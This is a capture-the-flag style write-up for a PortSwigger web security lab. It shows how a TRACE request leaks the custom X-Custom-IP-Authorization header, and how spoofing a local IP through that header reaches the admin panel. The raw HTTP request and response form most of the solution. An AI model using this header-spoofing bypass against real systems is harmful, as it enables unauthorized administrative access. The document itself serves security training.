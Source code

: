 # [Lab: Authentication bypass via information disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)

This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

---
## Solution

Request
```http
get /admin HTTP/2 -> Trace /admin HTTP/2
```

Response
```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 724

Trace /admin HTTP/1.1
Host: 0a0600c70335c09f8026901d000f0029.web-security-academy.net
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
accept-encoding: gzip, deflate
accept-language: en-US,en;q=0.9
cookie: session=k7tJeXJ0CxYkEVAy9NDOw1ukkGVhKUsN
Content-Length: 0
X-Custom-IP-Authorization: 103.41.25.230
```
- we can see our ip is getting appended
- as it is only displaying page to local users, we can append local ip at the end of every request
- ![](./images/04-Lab-1.png)
  - now visit `/admin`
  - ![](04-lab-2.png)
